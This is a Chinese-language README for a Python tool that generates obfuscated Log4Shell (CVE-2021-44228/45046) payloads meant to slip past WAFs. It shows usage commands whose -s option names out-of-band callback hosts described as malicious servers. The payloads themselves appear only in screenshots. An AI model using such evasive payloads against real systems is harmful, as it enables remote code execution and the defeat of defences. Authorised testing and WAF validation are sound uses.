# Log4Shell-obfuscated-payloads-generator
Log4Shell-obfuscated-payloads-generator可以生成初级混淆的或二级混淆的CVE-2021-44228或CVE-2021-45046 payloads，以规避WAF检测。

[Log4Shell-obfuscated-payloads-generator的设计思想](https://r3kind1e.github.io/2022/05/26/Log4Shell-obfuscated-payloads-generator/)

## 安装
```
git clone https://github.com/r3kind1e/Log4Shell-obfuscated-payloads-generator.git
```

Log4Shell-obfuscated-payloads-generator在任何平台上都可以在Python 3.x版本中开箱即用。

## Usage
要获取基本选项列表，请使用：

```
python3 Log4Shell-obfuscated-payloads-generator.py -h
```

要获取使用示例，请使用：

```
python3 Log4Shell-obfuscated-payloads-generator.py -hh
```

## Screenshots
`-h`: 获取基本选项列表


`-hh`: 获取使用示例


使用单个选项生成有效负载，`-s`选项指定恶意服务器：
```
--generate-primary-obfuscated-cve-2021-44228-payload 8 -s ck0pf4l6fmq4w0v17o7t894txk3arz.oastify.com
```



```
--generate-primary-obfuscated-cve-2021-45046-payload 4 -s x53a0p6r07bphlgms9setupei5owcl.oastify.com
```


```
--generate-secondary-obfuscated-cve-2021-44228-payload 5 -s oia1rpap41mhxkp6rdbbywit1k7avz.oastify.com
```



```
--generate-secondary-obfuscated-cve-2021-45046-payload 5 -s 3vzg44n4hgzwaz2l4soqbbv8ezkq8f.oastify.com
```


使用多个选项来生成有效负载，`-s` 选项指定了恶意服务器：
```
--generate-primary-obfuscated-cve-2021-44228-payload 4 --generate-secondary-obfuscated-cve-2021-44228-payload 4 -s exfr6fpfjr17ca4w63q1dmxjgam2ar.oastify.com
```


如果不使用`-s`选项指定恶意服务器，`{{callback_host}}`占位符将保留在生成的有效负载中：
```
--generate-primary-obfuscated-cve-2021-44228-payload 3
```

```
--generate-primary-obfuscated-cve-2021-45046-payload 3 --generate-secondary-obfuscated-cve-2021-45046-payload 7
```


**TODO: Log4Shell-obfuscated-payloads-generator的设计思路将在5月20日之后发布。**
